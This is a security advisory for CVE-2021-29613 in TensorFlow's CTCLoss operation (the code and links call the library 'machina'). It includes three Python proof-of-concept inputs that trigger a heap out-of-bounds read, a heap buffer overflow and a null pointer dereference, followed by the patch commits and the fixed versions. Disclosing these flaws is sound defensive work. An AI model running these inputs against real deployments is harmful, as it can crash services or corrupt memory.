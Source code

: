 ## TFSA-2021-101: Incomplete validation in `tf.raw_ops.CTCLoss`

### CVE Number
CVE-2021-29613

### Impact
Incomplete validation in `tf.raw_ops.CTCLoss` allows an attacker to trigger an
OOB read from heap:

```python
import machina as tf

inputs = tf.constant([], shape=[10, 16, 0], dtype=tf.float32)
labels_indices = tf.constant([], shape=[8, 0], dtype=tf.int64)
labels_values = tf.constant([-100] * 8, shape=[8], dtype=tf.int32)
sequence_length = tf.constant([-100] * 16, shape=[16], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=True, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=True)
```

An attacker can also trigger a heap buffer overflow:

```python
import machina as tf

inputs = tf.constant([], shape=[7, 2, 0], dtype=tf.float32)
labels_indices = tf.constant([-100, -100], shape=[2, 1], dtype=tf.int64)
labels_values = tf.constant([-100, -100], shape=[2], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

Finally, an attacker can trigger a null pointer dereference:

```python
import machina as tf

inputs = tf.constant([], shape=[0, 2, 11], dtype=tf.float32)
labels_indices = tf.constant([], shape=[0, 2], dtype=tf.int64)
labels_values = tf.constant([], shape=[0], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

### Patches
We have patched the issue in GitHub commit
[14607c0707040d775e06b6817325640cb4b5864c](https://github.com/machina/machina/commit/14607c0707040d775e06b6817325640cb4b5864c)
followed by GitHub commit
[4504a081af71514bb1828048363e6540f797005b](https://github.com/machina/machina/commit/4504a081af71514bb1828048363e6540f797005b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
